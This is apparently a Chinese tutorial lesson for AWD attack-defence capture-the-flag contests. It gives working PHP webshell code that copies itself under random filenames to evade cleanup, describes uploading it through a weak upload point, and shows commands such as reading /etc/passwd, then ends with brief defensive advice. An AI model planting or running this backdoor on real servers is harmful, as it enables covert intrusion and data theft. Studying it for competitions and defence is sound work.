



# AWD攻防：P1：随机文件名蠕虫马与简化命令执行

在本节课中，我们将学习一种在AWD（Attack With Defense）攻防赛中使用的技术：创建随机文件名的WebShell（后门文件），并利用它来简化后续的命令执行步骤。这种方法有助于隐藏后门，避免被对手或防御系统轻易发现和清除。

上一节我们介绍了AWD比赛的基本背景，本节中我们来看看如何构建一个具有隐蔽性的持久化后门。

---

## 🎯 核心原理：随机化与自动化

该技术的核心在于两点：
1.  **文件名随机化**：上传的WebShell文件使用随机生成的文件名，增加被扫描和删除的难度。
2.  **命令执行简化**：在WebShell中预置功能，使得后续只需访问特定URL参数即可执行系统命令，无需重复上传文件。

其工作流程可以用以下代码逻辑概括：
```php
// 1. 生成随机文件名
$randomName = generateRandomString() . '.php';
// 2. 将包含后门代码的文件写入该随机名称的文件
file_put_contents($randomName, $webshellCode);
// 3. 后门代码中包含接收并执行命令的逻辑
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
```

---

## 📝 实现步骤详解

以下是构建和部署此类蠕虫马的具体步骤。

### 步骤一：准备WebShell代码

首先，需要准备一个基础的WebShell代码。这个代码能够接收来自HTTP请求的参数并执行系统命令。

一个简单的示例代码如下：
```php
<?php
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    system($_REQUEST['cmd']);
    echo "</pre>";
}
?>
```
这段代码会检查是否存在`cmd`参数，如果存在，则执行该参数值代表的系统命令，并将输出返回。

### 步骤二：实现文件名随机化



为了隐蔽，我们不能使用`shell.php`这样明显的文件名。我们需要在代码中增加生成随机文件名的逻辑，并在上传时使用它。

以下是整合了随机化功能的WebShell代码示例：
```php
<?php
// 定义生成随机字符串的函数
function generateRandomString($length = 10) {
    $characters = 'abcdefghijklmnopqrstuvwxyz0123456789';
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, strlen($characters) - 1)];
    }
    return $randomString;
}

// 生成随机文件名并写入自身代码
$filename = generateRandomString() . '.php';
if(!file_exists($filename)) {
    $currentContent = file_get_contents(__FILE__);
    file_put_contents($filename, $currentContent);
    echo "Shell created: " . $filename;
}

// 命令执行功能
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    system($_REQUEST['cmd']);
    echo "</pre>";
}
?>
```
这段代码首次运行时，会生成一个随机名称的副本文件，从而实现“蠕虫”式的自我传播和隐藏。

### 步骤三：利用漏洞进行上传



通常，我们需要利用目标网站的上传漏洞（如未严格校验文件类型、路径等）将上述PHP文件上传到服务器。假设存在一个上传点`/upload.php`。

我们可以使用工具（如Burp Suite）或编写脚本，将包含上述代码的文件POST到上传接口。成功后，我们将获得一个类似`k8sj3dnaoi.php`的访问地址。

### 步骤四：简化命令执行

文件上传成功后，后续的所有命令执行操作都将变得非常简单。无需再操作上传功能，只需直接访问该随机文件名的地址，并通过URL传递`cmd`参数即可。

例如，访问以下链接将在服务器上执行`ls -la`命令：
```
http://target.com/uploads/k8sj3dnaoi.php?cmd=ls -la
```
你可以将`ls -la`替换为任何其他系统命令，如`whoami`、`cat /etc/passwd`等。

---

## ⚠️ 注意事项与防御

在了解了攻击方法后，认识防御措施同样重要。



以下是防御此类攻击的几点建议：
*   **严格文件上传校验**：检查文件扩展名、MIME类型，并将上传文件重命名为非可执行格式（如加上`.txt`后缀）或存储于Web根目录之外。
*   **定期扫描与监控**：使用WebShell扫描工具定期检查服务器文件，监控是否有异常的新增PHP文件。
*   **限制命令执行函数**：在PHP配置中禁用危险的函数，如`system`、`exec`、`shell_exec`、`passthru`等。
*   **使用Web应用防火墙（WAF）**：配置WAF规则，拦截包含可疑参数（如`?cmd=`）的请求。

---

## 📚 总结

本节课中我们一起学习了AWD攻防中一种提高生存性的后门技术。我们掌握了如何通过**生成随机文件名**来隐藏WebShell，以及如何通过**预置命令执行接口**来简化后续的攻击操作。理解这些攻击手法有助于我们更好地构建防御策略，保护Web应用的安全。

记住，安全是攻防两端的持续对抗，知己知彼方能百战不殆。